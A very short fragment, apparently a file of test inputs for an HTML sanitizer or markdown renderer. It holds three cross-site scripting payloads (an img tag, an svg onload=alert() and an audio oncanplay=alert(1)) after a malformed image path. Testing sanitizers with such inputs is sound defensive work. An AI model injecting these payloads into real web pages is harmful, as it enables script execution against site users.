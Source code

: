#<h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>







